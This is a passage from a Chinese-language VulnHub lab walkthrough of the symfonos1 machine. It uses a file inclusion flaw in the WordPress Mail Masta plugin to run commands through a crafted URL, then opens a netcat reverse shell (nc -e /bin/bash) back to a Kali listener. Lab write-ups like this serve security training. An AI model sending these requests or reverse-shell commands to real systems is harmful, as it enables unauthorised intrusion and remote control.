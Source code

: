 ![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos1/17.png)

访问 helios 邮件 `http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&a=ip a` 测试

![](../../../../../../assets/img/安全/实验/靶机/VulnHub/symfonos/symfonos1/18.png)

可以执行,测试回弹 shell,kali 监听
```
nc -lvp 4444
```

访问 `http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&a=nc -nv 192.168.141.134 4444 -e /bin/bash`
